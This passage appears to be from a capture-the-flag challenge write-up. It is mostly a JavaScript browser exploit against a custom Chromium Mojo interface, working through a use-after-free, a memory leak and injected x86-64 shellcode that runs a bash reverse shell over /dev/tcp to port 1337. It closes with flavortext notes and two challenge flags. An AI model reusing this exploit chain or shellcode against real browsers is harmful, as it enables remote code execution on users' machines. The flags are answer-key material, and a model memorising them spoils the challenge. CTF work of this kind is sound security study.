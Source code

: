 ```html

    ptrs.push(ptr);
  }

  await sleep(100);

  ptrs[easy_offset + 0].ptr.reset();

  const { decay } = await ptrs[1].despair({
    wrecks: [
      {
        size: 0x100,
        lengthToUse: IS_EASY ? 0x200: 0x100,
        type: blink.mojom.DesertType.EMPTY,
        data: IS_EASY ? undefined: {
          $tag: mojoBase.mojom.BigBuffer.Tags.invalidBuffer,
          invalidBuffer: true
        }
      }
    ]
  });

  const leak = new BigUint64Array(new Uint8Array(decay[0]["$data"]).buffer);

  ptrs[1].visage("\x48\x31\xd2\x52\x48\x8d\x05\x31\x00\x00\x00\x50\x48\x8d\x05\x26\x00\x00\x00\x50\x48\x8d\x05\x14\x00\x00\x00\x50\x48\x89\xe6\x48\x8d\x3d\x09\x00\x00\x00\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x00\x2d\x63\x00/bin/bash -i >& /dev/tcp/localhost/1337 0>&1\x00".split("").map(a => a.charCodeAt(0)), {
    high: leak[(IS_EASY ? 0x100 / 8: 0) + 2],
    low: leak[(IS_EASY ? 0x100 / 8: 0) + 3]
  });

  }catch(e){
    log("error");
    log(": " + e.stack);
  }
  })();

</script>
```


## Flavortext

The flavortext for this challenge was chosen from <https://theanarchistlibrary.org/library/anonymous-desert>, a rather interesting article a debate friend sent me previously. 

As usual, I used a flag pair for my paired challenges: 
```
flag{c1vili53d_man_ha5_march3d_3qHD1}
flag{and_l3ft_a_d35ert_Kx8xc}
```

Taken from: 
> Civilised man has marched across the face of the earth and left a desert in his footprints.
